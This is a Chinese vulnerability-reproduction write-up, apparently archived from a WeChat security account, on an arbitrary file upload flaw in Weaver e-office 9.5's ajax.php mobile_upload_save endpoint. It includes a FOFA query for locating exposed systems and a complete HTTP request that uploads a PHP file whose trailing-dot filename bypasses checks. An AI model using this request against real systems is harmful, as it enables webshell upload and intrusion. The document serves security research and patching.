



# 泛微e-office9.5 ajax.php mobile_upload_save文件上传

## 条目说明

- 对象与具体问题：泛微e-office9.5；ajax.php mobile_upload_save文件上传
- 版本、配置及部署条件：9.5；php.尾点处理依赖Windows/解析配置
- 认证与权限前提：样本带e-cology式cookie，是否必要未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 与CVE2523专项同接口/upload_quwan，本文请求字段和filename完整可修复其缺失
- 不自动把e-cology Cookie视为产品证据；正文产品归e-office
- 返回路径仅截图，补丁未知；空编号可与有证据的CVE候选关联

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

南风漏洞复现文库  南风漏洞复现文库   2024-04-17 23:31  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
### 1. 泛微e-office系统ajax.php接口简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
泛微e-office系统是标准、易用、快速部署上线的专业协同OA软件,国内协同OA办公领域领导品牌,致力于为企业用户提供专业OA办公系统、移动OA应用等协同OA整体解决方案。  
### 2.漏洞描述  
  
泛微e-office系统是标准、易用、快速部署上线的专业协同OA软件。泛微 E-Office 9.5版本存在代码问题漏洞，泛微e-office系统ajax.php接口存在任意文件上传漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
### 3.影响版本  
  
泛微 E-Office 9.5版本  
  
  
  
泛微e-office系统ajax.php接口存在任意文件上传漏洞  
### 4.fofa查询语句  
  
app="泛微-EOffice"  
### 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/E-mobile/App/Ajax/ajax.php?action=mobile_upload_save  
  
漏洞数据包：  
```http
POST /E-mobile/App/Ajax/ajax.php?action=mobile_upload_save HTTP/1.1
Content-Type: multipart/form-data; boundary=c2307d1cd1165cfacd8cd7c008f44d1e
Cookie: testBanCookie=test; ecology_JSessionId=abcLQ67J8J80DciAxUz5y; JSESSIONID=abcLQ67J8J80DciAxUz5y; ecology_JSessionid=abcLQ67J8J80DciAxUz5y
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept-Encoding: gzip, deflate
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Host: 127.0.0.1
Content-Length: 334
Expect: 100-continue
Connection: close

--c2307d1cd1165cfacd8cd7c008f44d1e
Content-Disposition: form-data; name="upload_quwan"; filename="HGsrz.php."
Content-Type: image/jpeg

<?php phpinfo();?>
--c2307d1cd1165cfacd8cd7c008f44d1e
Content-Disposition: form-data; name="file"; filename=""
Content-Type: application/octet-stream


--c2307d1cd1165cfacd8cd7c008f44d1e--
```  

> 请求长度说明：原资料 Content-Length 为 334；保留原始标头；其数值未据实际请求体重新计算或验证。
  
  
  
上传成功会返回路径  
  
  
### 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
  
  
  
  
  
  
  
  
  
### 7.整改意见  
  
请关注官网更新补丁: https://www.e-office.cn/  
### 8.往期回顾  
  
[魔方网表mailupdate.jsp接口存在任意文件上传漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486185&idx=1&sn=1e454d13e5415d343d126acc74b85954&chksm=974b87eea03c0ef841b66c87ea913d064f5a4b490c58b1f37794b9464070a744df5c0e551266&scene=21#wechat_redirect)  
  
  
[浙大恩特客户资源管理系统Ri0004_openFileByStream.jsp接口存在任意文件读取漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486163&idx=1&sn=be62990ea16076d51fba74099ada6664&chksm=974b87d4a03c0ec25569a4fe6371b5762a9974bd3ffc75871c8a8641d676354a0b4f3b1d8d83&scene=21#wechat_redirect)  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
